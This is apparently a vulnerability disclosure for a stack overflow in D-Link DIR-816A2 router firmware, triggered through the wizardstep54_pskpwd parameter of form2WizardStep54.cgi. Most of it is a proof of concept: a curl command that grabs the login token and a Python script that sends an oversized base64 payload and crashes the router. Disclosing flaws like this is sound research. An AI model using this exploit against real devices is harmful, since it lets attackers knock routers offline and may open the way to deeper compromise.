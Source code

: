 # DIR-816A2_FWv1.10CNB05_R1B011D88210.img Stack overflow vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/form2WizardStep54.cgi.    The contents obtained by the wizardstep54_pskpwd parameter are passed to V8, and then the contents matched by V8 are decoded and put into the V14 stack without size checking, resulting in a stack overflow.

![](img/2.png#center)

![](img/3.png#center)
## POC

Gets the token ID

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Run poc

```python
import requests
import base64

tokenid = ''

url = 'http://192.168.0.1/goform/form2WizardStep54.cgi'

payload = base64.b64encode(b'a' * 10000)

data = {
    'tokenid': tokenid,
    'wizardstep54_next': 'a',
    'wizardstep54_wlanDisabled': 'b',
    'wizardstep54_ssid': 'c',
    'wizardstep54_sec': 'd',
    'wizardstep54_pskpwd': payload,
    'wizardstep54_chanwid': 'e'
}

r = requests.post(url, data)
hunzi = r.text
print(hunzi)
```

You can see the router crash
